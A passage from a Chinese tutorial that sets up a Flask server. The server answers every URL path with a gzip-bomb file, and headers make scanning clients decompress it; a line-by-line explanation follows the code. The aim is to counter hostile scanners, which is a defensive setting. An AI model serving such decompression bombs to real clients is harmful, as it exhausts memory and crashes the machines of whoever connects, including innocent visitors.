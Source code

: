 我们部署一个简易的 Flask 服务器，并让其将我们在上文制造的 `test.gzip` 作为压缩后的响应：

```python title="app.py" linenums="1" hl_lines="7 8 10 16 17 22"
from flask import Flask, Response, request
import logging

app = Flask(__name__)


@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def send_gzip_bomb(path):
    remote_addr = request.headers.get('X-Forwarded-For', request.remote_addr)
    app.logger.info(f'client [{remote_addr}] {request.method} [{request.host}] as {request.url}')
    app.logger.info(f'User-Agent: {request.headers.get("User-Agent")}')

    with open(r'static/test.gzip', "rb") as payload_gzip:
        resp = payload_gzip.read()
    final_response = Response(response=resp, status=200, mimetype="text/html")
    final_response.headers['Content-Encoding'] = 'gzip'
    return final_response


if __name__ == '__main__':
    logging.basicConfig(filename='flask.log', level=logging.INFO)
    app.run(host='127.0.0.1', port=8082)
```

这个简易的 Flask 服务器的代码中有以下要点：

 - 第7行 - `#!python @app.route("/", defaults={"path": ""})`：当匹配到 `"/"` 的路由时（比如直接访问 `http://` + `你的公网 IP 地址`），将 `send_gzip_bomb` 函数的 `path` 参数设置成 `""`
 - 第8行 - `#!python @app.route("/<path:path>"))`：当匹配到任何带 path 的路由时，将 `send_gzip_bomb` 函数的 `path` 参数设置成 URL 中的 path 值

如此一来，这个 `send_gzip_bomb` 函数便能捕获所有的路由（即使函数中从未使用 `path` 参数）。

 - 第10行 - `#!python 'X-Forwarded-For'`：取出请求头中的 `X-Forwarded-For` 的值，从而知道是谁访问了我们的服务器。如果直接使用 `#!python request.remote_addr`，那么查看到的地址永远都是 `127.0.0.1`，因为这个请求是从本地的 nginx 发来的

!!! 提示 hint

    使用 `X-Real-IP` 替代 `X-Forwarded-For` 同样也可以，前提是这两个值在 nginx 反代时已经被定义。<br>见 [部署于 nginx](#nginx)

 - 第16行 - `#!python mimetype="text/html"`：在响应头中指定响应类型为文本，这样被害的扫描器服务器便会无条件解压我们发来的载荷
 - 第17行 - `#!python final_response.headers['Content-Encoding'] = 'gzip'`：同上，告知被害的扫描器服务器使用 `gzip` 解压载荷
 - 第22行 - `#!python filename='flask.log'`：将 Flask 的日志输出重定向到文件，方便我们记录是谁恶意访问了我们的服务器

现在，运行这个 Flask 服务器，并访问 http://127.0.0.1:8082。
